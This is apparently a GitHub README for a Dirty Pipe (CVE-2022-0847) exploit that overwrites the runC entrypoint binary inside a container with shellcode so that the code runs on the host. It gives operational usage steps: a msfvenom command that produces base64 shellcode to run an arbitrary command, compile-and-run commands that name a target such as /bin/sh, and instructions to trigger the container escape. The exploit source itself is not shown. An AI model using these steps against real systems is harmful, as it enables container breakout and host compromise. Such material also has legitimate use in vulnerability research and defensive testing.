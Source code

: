 # CVE-2022-0847
A simple exploit that uses dirtypipe to inject shellcode into runC entrypoint to implement container escapes.

## Usage
Produce base64 encoded shellcode using msf:
```
$ msfvenom -p linux/x64/exec CMD="<command>" -f base64
```

Compile and run in the container, the **overwritten filename** is the bin that runC will execute in the container (such as /bin/sh):
```bash
$ gcc exploit.c -o exploit
$ ./exploit <overwritten filename> <base64 shellcode>
```

Trigger exploit and shellcode outside the container like CVE-2019-5736.

## References
+ [Breaking out of Docker via runC – Explaining CVE-2019-5736](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/)
+ [Using the Dirty Pipe Vulnerability to Break Out from Containers](https://www.datadoghq.com/blog/engineering/dirty-pipe-container-escape-poc/)

